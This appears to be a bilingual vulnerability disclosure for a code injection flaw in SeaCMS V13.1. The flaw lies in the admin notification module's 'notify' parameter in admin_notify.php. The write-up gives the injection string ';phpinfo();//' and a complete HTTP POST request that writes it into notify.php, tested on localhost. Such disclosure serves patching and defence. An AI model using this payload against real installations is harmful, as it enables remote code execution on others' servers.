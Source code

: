 # SeaCMS V13.1 code injection
*SeaCMS V13.1 代码注入*
## Environment
*环境*
V13
![](https://raw.githubusercontent.com/v9d0g/CVEs/refs/heads/main/images/Pasted%20image%2020241009103209.png)
https://www.seacms.net/
## Analysis
*分析*
Injecting malicious code into the notification module of the member message notification module in the backend user module, the unsafe handling of the "notify" variable in the file "admin_notify. php" resulted in the injection of code.
*在后端用户模块的成员消息通知模块的通知模块中注入恶意代码，对文件“admin_notify.php”中的“notify”变量的不安全处理导致代码注入*
![](https://raw.githubusercontent.com/v9d0g/CVEs/refs/heads/main/images/Pasted%20image%2020241009103256.png)
## Verify
*证明*
Backend: User ->Member Message Notification ->Notification
*后台:用户->会员消息通知->通知*
![](https://raw.githubusercontent.com/v9d0g/CVEs/refs/heads/main/images/Pasted%20image%2020241009103505.png)
```php
;phpinfo();//
```
![](https://raw.githubusercontent.com/v9d0g/CVEs/refs/heads/main/images/Pasted%20image%2020241009103543.png)
Successfully injected code
*成功注入代码*
![](https://raw.githubusercontent.com/v9d0g/CVEs/refs/heads/main/images/Pasted%20image%2020241009103552.png)
```http
POST /d3kdjs/admin_notify.php?action=set HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:131.0) Gecko/20100101 Firefox/131.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 40
Origin: http://localhost
Connection: close
Referer: http://localhost/d3kdjs/admin_notify.php
Cookie: iconSize=16x16; jenkins-timestamper-offset=-28800000; PHPSESSID=fv6b5117hu9kv7fbepjs9ie1n2; XDEBUG_SESSION=PHPSTORM; t00ls=e54285de394c4207cd521213cebab040; t00ls_s=YTozOntzOjQ6InVzZXIiO3M6MjY6InBocCB8IHBocD8gfCBwaHRtbCB8IHNodG1sIjtzOjM6ImFsbCI7aTowO3M6MzoiaHRhIjtpOjE7fQ%3D%3D
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: iframe
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=4

notify1=";phpinfo();//&notify2=&notify3=
```
![](https://raw.githubusercontent.com/v9d0g/CVEs/refs/heads/main/images/Pasted%20image%2020241009103842.png)
Malicious code successfully written to notify.chp file.
*恶意代码成功写入notify.php文件中*
![](https://raw.githubusercontent.com/v9d0g/CVEs/refs/heads/main/images/Pasted%20image%2020241009103740.png)
